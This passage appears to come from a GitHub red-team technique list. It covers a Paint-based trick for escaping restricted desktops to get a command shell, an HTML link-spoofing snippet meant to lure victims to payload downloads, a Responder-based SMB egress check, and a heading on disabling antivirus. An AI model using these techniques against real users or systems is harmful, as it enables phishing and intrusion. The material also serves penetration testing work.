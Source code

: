 **Description:** *'An unusual, yet effective method of gaining a shell by creating a shortcut to cmd.exe by drawing certain colours in Microsoft Paint. Due to the encoding algorithm used to write BMP files, it is possible to dictate ASCII data written into a file by carefully selecting certain RGB colours.'*

**Credit:** [PenTestPartners](https://www.pentestpartners.com/)

**Link:** [Blog](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/#gainingacommandshell)

### [🔙](#tool-list)Link spoofing with PreventDefault JavaScript method

![image](https://user-images.githubusercontent.com/100603074/223849419-c65fec83-ca1c-4a20-ac06-ec2de537a748.png)

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>PreventDefault Example</title>
  </head>
  <body>
    <a href="https://google.com" onclick="event.preventDefault(); window.location.href = 'https://bing.com';">Go to Google</a>
  </body>
</html>
```

**Description:** *Threat actors have been observed using this technique to trick victims into clicking spoofed in-page malware download links. Using the PreventDefault JavaScript method you can spoof the hover link to display a legit link `google.com`, but once clicked the victim will be redirected to your malicious link `bing.com`. Great for getting victims to download payloads via a controlled site.*

**Link:** [PreventDefault Docs](https://developer.mozilla.org/en-US/docs/Web/API/Event/preventDefault)

### [🔙](#tool-list)Check SMB firewall rules with Responder

![image](https://user-images.githubusercontent.com/100603074/229650380-b651cfc4-896f-4429-b7b4-54d1241a5b39.png)

```powershell
Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"
```

**Description:** *'When I do a Compromise Assessment, I often ask the customer if I can do a last quick check: `Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"`. If Responder could capture the hash, the firewall allows outgoing SMB connections'*

**Credit:** [@malmoeb](https://twitter.com/malmoeb)

**Link:** [Twitter](https://twitter.com/malmoeb/status/1628272928855826433)

### [🔙](#tool-list)Disable AV with SysInternals PsSuspend
